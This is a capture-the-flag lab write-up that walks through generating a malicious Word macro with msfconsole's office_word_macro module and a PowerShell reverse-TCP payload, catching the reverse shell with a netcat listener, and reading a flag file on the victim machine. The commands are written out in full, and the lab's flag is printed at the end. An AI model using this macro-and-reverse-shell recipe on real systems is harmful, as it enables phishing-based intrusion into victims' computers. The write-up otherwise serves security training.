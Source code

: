 # 🎯 **Challenge Writeup: Word File Payload and Reverse Shell Access** 💻🔗  

This challenge was both fun and frustrating, making me bang my head against the wall multiple times! 🧱

---

### 📚 **Step 1: Understanding the Challenge**  
Since we needed to fit a payload inside a Word file, I explored various methods. After trying a few wrong approaches, I discovered that `msfconsole` has a specific module for creating Word-based payloads.

---

### 🛠 **Step 2: Creating the Payload with msfconsole**  
We used the following commands to create a malicious Word file payload:  

```bash
use exploit/multi/fileformat/office_word_macro  
set PAYLOAD payload/windows/powershell_reverse_tcp  
set LHOST 10.17.19.178  
set LPORT 4444  
run  
```  

- **LHOST:** This is my **OpenVPN IP** (as I was connected via `tun0` on WSL).  
- **LPORT:** Any port I wanted to listen on (I chose port `4444`).  

---

### 🔊 **Step 3: Deploying the Payload and Starting Listener**  
After creating and submitting the payload to the victim, I opened a listener on port 4444:  

```bash
nc -lvnp 4444  
```  

💡 **Success!** I got a reverse shell connection to the victim's PC! 🎉  

---

### 🔍 **Step 4: Searching for the Flag**  
Once connected, I explored the victim's desktop:  

```bash
ls C:\Users\Administrator\Desktop\*  
```  

🗂 **Output:**  
```  
  Directory: C:\Users\Administrator\Desktop  
  
Mode                LastWriteTime         Length Name  
----                -------------         ------ ----  
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website  
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website  
-a----         3/1/2025   5:27 PM             27 flag.txt  
```  

---

### 🏁 **Step 5: Retrieving the Flag**  
I found the `flag.txt` file, read it, and retrieved the flag:  

```
flag:  
THM{gh0st_ph1sh1ng_exp0s3d}  
```

---
